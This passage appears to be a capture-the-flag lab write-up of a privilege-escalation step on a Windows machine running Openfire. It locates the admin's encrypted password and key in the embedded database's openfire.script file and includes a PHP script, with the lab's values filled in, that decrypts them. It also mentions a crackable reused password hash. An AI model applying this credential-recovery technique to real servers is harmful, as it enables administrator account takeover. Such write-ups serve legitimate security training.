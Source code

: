 ### Privilege Escalation to Administrator
> [!NOTE]  
> _Another unintended path is via password reuse because I forgot to change the password for user AlexanderK. His password hash can be found in the embedded-db and it is crackable because originally I wanted to go through password reuse, but in the meantime this neat CVE for OpenFire came out. Again, rookie mistake forgetting the password, but we've decided to keep it in and not patch it as I liked the double pathway to admin and it fit the theme of password reuse that we saw earlier with BlakeB._

Enumerating the openfire folder, we can see it is using an `embedded-db` as indicated by the presence of this folder:  

![image](https://i.imgur.com/lTK2Knc.png)

In the `openfire.script` file we see an interesting statement where it seems the admin password is set up:  

![image](https://i.imgur.com/LEL7peZ.png)

We can do some googling to find how to decrypt this Openfire password and find a helpful [github](https://github.com/shakaw/openfire-password-decrypt) page:;

![image](https://user-images.githubusercontent.com/80063008/222528445-772c676a-618e-47fd-ab99-322726193551.png)

It seems that besides the encrypted password we also require a `passwordKey`. We can use `findstr` to quickly search for it in the same file:  

![image](https://i.imgur.com/NViYdki.png)

We can add our variables to the script we found and decrypt the password:

```php
<?php
function decrypt_openfirepass($ciphertext, $key) {
    $cypher = 'blowfish';
    $mode   = 'cbc';
    $sha1_key = sha1($key, true);
    $td = mcrypt_module_open($cypher, '', $mode, '');
    $ivsize    = mcrypt_enc_get_iv_size($td);
    $iv = substr(hex2bin($ciphertext), 0, $ivsize);
    $ciphertext = substr(hex2bin($ciphertext), $ivsize);
    if ($iv) {
        mcrypt_generic_init($td, $sha1_key, $iv);
        $plaintext = mdecrypt_generic($td, $ciphertext);
    }
    return $plaintext;
}

$enc_password = 'becb0c67cfec25aa266ae077e18177c5c3308e2255db062e4f0b77c577e159a11a94016d57ac62d4e89b2856b0289b365f3069802e59d442';
$blowfish_key = 'hGXiFzsKaAeYLjn';
echo decrypt_openfirepass($enc_password, $blowfish_key);
```
![image](https://i.imgur.com/litIoZr.png)
